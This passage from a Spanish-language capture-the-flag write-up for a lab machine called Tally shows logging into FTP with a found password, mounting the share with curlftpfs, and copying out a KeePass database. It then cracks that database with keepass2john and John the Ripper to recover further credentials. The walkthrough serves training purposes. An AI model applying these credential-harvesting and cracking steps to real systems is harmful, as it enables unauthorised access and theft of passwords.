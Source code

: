 ### Conneccion con FTP {-}

```bash
ftp 10.10.10.59
Name: ftp_user
Password: UTDRSCH3c"$6hys
```

Hemos podido authenticarnos. Si le damos a 
```bash
 dir 
```
 vemos muchos directorios. Si es el caso, S4vi nos propone usar de la Heramienta 
```bash
 curlftpfs 
```
 para montarnos
una montura por ftp

```bash
apt install curlftpfs
mkdir /mnt/ftp
curlftpfs ftp_user:'UTDRSCH3c"$6hys'@10.10.10.59 /mnt/ftp
cd /mnt/ftp
tree
```

Aqui vemos un fichero 
```bash
 tim.kdbx 
```
. Es interesante porque los ficheros **KDBX** son ficheros KeePass y suelen tener informaciones interesantes como contraseñas.

```bash
cp User/Tim/Files/tim.kdbx /home/s4vitar/Desktop/S4vitar/Tally/content/.
cd !$
chmod 644 tim.kdbx
apt install keepassxc
```

Si lanzamos el KeePassxc y que le damos a abrir una base de datos existente, buscamos el fichero 
```bash
 tim.kdbx 
```
 vemos que nos pide una contraseña.
En este caso bamos a lanzar un keepass2john para crackear la contraseña.

### Crackeando un fichero KDBX con keepass2john {-}

```bash
keepass2john tim.kdbx > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Ya tenemos la contraseña. Podemos abrir el fichero KDBX con Keepassxc y aqui ya encontramos una credencial por el usuario Finance.
Vamos a checkear los recursos compartidos a nivel de red con este usuario.
